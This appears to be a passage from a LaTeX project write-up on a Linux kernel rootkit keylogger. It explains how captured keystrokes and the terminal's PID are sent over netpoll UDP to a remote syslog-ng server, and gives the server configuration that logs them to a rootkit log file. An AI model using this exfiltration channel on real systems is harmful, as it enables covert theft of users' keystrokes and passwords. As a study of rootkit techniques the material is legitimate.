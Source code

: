 \documentclass[10pt, letterpaper]{scrartcl}
\begin{document}
\begin{verbatim}
  struct netpoll {
          struct net_device *dev;
          char dev_name[IFNAMSIZ]; // device name has to be ethernet
          const char *name; 
  
          union inet_addr local_ip, remote_ip;	// Ip addresses in network byte order
          bool ipv6; 
          u16 local_port, remote_port; // some unused local port(eg. 6666) and 
				      //remote_port = 514 (for syslog-ng server)
          u8 remote_mac[ETH_ALEN]; // set to 0xff
  
          struct work_struct cleanup_work;
  };
\end{verbatim}

Once the structre is initialized, we call,
\begin{verbatim}
int netpoll_setup(struct netpoll *);
\end{verbatim} 

This function sets up everything needed for sending the keys. Now we need take the input keys, 
add the pid information of the terminal and send the keys using \texttt{netpoll\_send\_UDP} which looks like,

\begin{verbatim}
netpoll_send_UDP(np, sned_buf, send_len); 
\end{verbatim}

\texttt{Getting the PID information}: This was quite simple, as the \texttt{current} macro was quite handy in this situation.
\texttt{current} macro points to the \texttt{task\_struct} of the currently executing process. 
\texttt{task\_struct} has the \texttt{pid} member. 


\texttt{Setting up syslog-ng server}: One must set the \texttt{syslog-ng} server in the destination. 
The following steps are for setting the syslog-ng server on Ubuntu. 
\begin{itemize}
\item Install the syslog-ng server: sudo apt-get install syslog-ng

\item Add these entries in \texttt{syslog-ng.conf} file (you can find the file under /etc/syslog-ng/ folder)
\begin{verbatim}
source syslog_udp {
udp(port(514));
};
destination df_wrt0 {
file("/var/log/rootkit_log.log");
};
log {
source(syslog_udp);
destination(df_wrt0);
}
filter f_wrt0 {
host("Ip from you are getting the data");
};
log {
source(syslog_udp);
filter(f_wrt0);
destination(df_wrt0);
}
\end{verbatim}

\end{itemize}
\end{document}

